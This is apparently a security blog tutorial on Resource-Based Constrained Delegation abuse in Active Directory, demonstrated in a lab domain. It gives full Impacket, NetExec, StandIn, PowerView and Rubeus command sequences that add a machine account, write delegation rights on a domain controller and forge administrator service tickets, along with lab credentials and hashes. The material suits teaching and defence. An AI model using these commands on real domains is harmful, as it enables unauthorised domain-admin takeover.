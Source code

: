 ```yaml
---
title: 🎟️ Ticket to the Kingdom Kerberos Attack - Resource-Based Constrained Delegation
date: 2025-10-29 01:04:00 +/-TTTT
categories: [Kerberos-Attack]
tags: [Resource-Based-Constrained-Delegation]     # TAG names should always be lowercase
image : /assets/images/rbcdbackground.png
---
```

> Author : lineeralgebra
{:.prompt-tip}

# **RBCD: Resource-Based Constrained Delegation**

**Resource-Based Constrained Delegation (RBCD)** is a feature in Active Directory that allows a **target computer or service** to control which accounts can delegate to it. Unlike classic **Constrained Delegation**, where delegation rights are configured on the **source account**, RBCD shifts the control to the **resource** itself. This makes it more flexible and secure, as the resource decides which users or services can act on behalf of others.

RBCD is commonly abused in Red Team scenarios to **impersonate high-privileged users** by leveraging the `msDS-AllowedToActOnBehalfOfOtherIdentity` attribute on computer objects. Proper configuration ensures delegation is explicit and auditable.

## RBCD happening why?

Lets talk about first why RBCD happenning and understand whats going on!!

1. Open ADUC
- Run `dsa.msc` on your DC (or a machine with RSAT).
- Make sure **Advanced Features** is enabled in the **View** menu (important, otherwise you won’t see the “Security” tab).

![alt text](../assets/images/kerberos56.png)

2 - Find the Resource and DC

- Navigate to **Domain Controllers OU**.
- Right-click **VALENOR-DC01**, then **Properties**.

3- Check at **Security** tab

- On the user u can go **Advanced**

![alt text](../assets/images/kerberos57.png)

after that page chouse our user at **Permission** tab and click at **Edit**

![alt text](../assets/images/kerberos58.png)

Scroll down and make sure those are selected.

![alt text](../assets/images/kerberos59.png)

Okey now lets check how we can detect and verify our attack first.

## RBCD Detection and Verify

First of all!!! There is way to to detect RBCD and its easy but in this section i wanna show u different approach off course!!!

This is easiest way to detect 

```bash
PS C:\Users\Administrator> Get-ADComputer "VALENOR-DC01" -Properties msDS-AllowedToActOnBehalfOfOtherIdentity | Select-Object -ExpandProperty msDS-AllowedToActOnBehalfOfOtherIdentity

Path Owner                  Access
---- -----                  ------
     BUILTIN\Administrators lab\ldapuser Allow
```

But lets do something more interesting!!!

### Think out of ideas

I will start with **Bloodhound** 

Lets say in this way we owned **ldapsuer** and we found at **bloodhound**

![alt text](../assets/images/kerberos60.png)

and checked it and we saw

![alt text](../assets/images/kerberos61.png)

but if we wanna check with **ADSearch.exe** 

```bash
execute-assembly /home/elliot/tools/SharpCollection/NetFramework_4.7_Any/ADSearch.exe --search "(&(objectCategory=user)(msDS-AllowedToActOnBehalfOfOtherIdentity=*))" --attributes dnshostname,samaccountname,msDS-AllowedToActOnBehalfOfOtherIdentity --json
```

![alt text](../assets/images/kerberos62.png)

we cannot find our user. Here is why;

- **Our user has permission to write on it and we can use it for add computer and add our computer RBCD so we can request TARGET DC ticket**

So it should be frustrating when we are try with manual detection why i choose this way.

OKey so lets move on **ATTACK**

## RBCD Attack - Linux

Lets do with linux abuse first and we will see **BLOODHOUND** show us command but we will go step by step.

### 1.Before add computer we have to sure maq≠0

We can check with

```bash
➜  RBCD nxc ldap VALENOR-DC01.lab.local -u ldapuser -p liverpool -M maq
LDAP        192.168.1.10    389    VALENOR-DC01     [*] Windows 10 / Server 2019 Build 17763 (name:VALENOR-DC01) (domain:lab.local)
LDAP        192.168.1.10    389    VALENOR-DC01     [+] lab.local\ldapuser:liverpool 
MAQ         192.168.1.10    389    VALENOR-DC01     [*] Getting the MachineAccountQuota
```

### 2.Lets add computer

we can add computer with [impacket-addcomputer](https://github.com/fortra/impacket/blob/master/examples/addcomputer.py)

```bash
addcomputer.py 'lab.local/ldapuser:liverpool' -computer-name irem -computer-pass Winter2025! -dc-host VALENOR-DC01.lab.local
```

![alt text](../assets/images/kerberos63.png)

### 3. Now we can try RBCD

We now need to configure the target object so that the attacker-controlled computer can delegate to it. Impacket's [rbcd.py](http://rbcd.py/) script can be used for that purpose:

```bash
rbcd.py -delegate-from 'irem$' -delegate-to 'VALENOR-DC01$' -action 'write' 'lab.local/ldapuser:liverpool'
```

![alt text](../assets/images/kerberos64.png)

### 4. Request ticket

Now we gave **irem$** `write` permission cause our user ldapuser has add permission now we can request ticket of Administrator

```bash
getST.py -spn 'cifs/VALENOR-DC01.lab.local' -impersonate 'administrator' 'lab.local/irem$:Winter2025!'
```

![alt text](../assets/images/kerberos65.png)

### 5. We are done

Just need to export it and dump everything

![alt text](../assets/images/kerberos66.png)

## RBCD Attack - Windows(C2)

The reason i check windows part mostly i wanna show u great tool [StandIN.exe](https://github.com/Flangvik/SharpCollection/blob/master/NetFramework_4.7_Any/StandIn.exe)

https://github.com/Flangvik/SharpCollection/blob/master/NetFramework_4.7_Any/StandIn.exe

Lets verify something and do this attack

![alt text](../assets/images/kerberos67.png)

Firs get beacon from our user and

### 1.Before add computer we have to sure maq≠0

we can check with

```bash
powershell-import /home/elliot/tools/PowerView.ps1
powerpick Get-DomainObject -Identity "dc=lab,dc=local" -Domain lab.local
```

![alt text](../assets/images/kerberos68.png)

The quote is set to the default of 10, which is good.

### 2.**Create Fake Computer**

Of course im gonna use [StandIn](https://github.com/Flangvik/SharpCollection/blob/master/NetFramework_4.7_Any/StandIn.exe)

Command to execute:

```bash
execute-assembly /home/elliot/tools/SharpCollection/NetFramework_4.7_Any/StandIn.exe --computer EvilComputer --make --Domain lab.local
```

![alt text](../assets/images/kerberos69.png)

it will create with random password.

### 3. Get SID

```bash
powerpick Get-DomainComputer -Identity EvilComputer -Properties objectsid
```

![alt text](../assets/images/kerberos70.png)

### 4. Set RBCD

```bash
powerpick Set-ADComputer VALENOR-DC01 -PrincipalsAllowedToDelegateToAccount EvilComputer$
powerpick Get-ADComputer VALENOR-DC01 -Properties PrincipalsAllowedToDelegateToAccount
```

![alt text](../assets/images/kerberos71.png)

Now to get a S4U hash to impersonate as administrator with Rubeus

### S4U for Administrator

First lets get rc4 hash for our computer

Command to execute:

```bash
execute-assembly /home/elliot/tools/Rubeus.exe hash /password:xryR1RNiOEbaCQ4 /user:EvilComputer$ /domain:VALENOR-DC01.lab.local
```

![alt text](../assets/images/kerberos72.png)

Now lets craete ticket for Administrator.

Command to execute:

```bash
execute-assembly /home/elliot/tools/Rubeus.exe s4u /user:EvilComputer$ /password:xryR1RNiOEbaCQ4 /domain:lab.local /impersonateuser:administrator /rc4:F5618B29262FE3330D10B94266559FA3 /msdsspn:host/VALENOR-DC01.lab.local /nowrap
```

![alt text](../assets/images/kerberos73.png)

and lets convert it to ccache

![alt text](../assets/images/kerberos74.png)

Done!!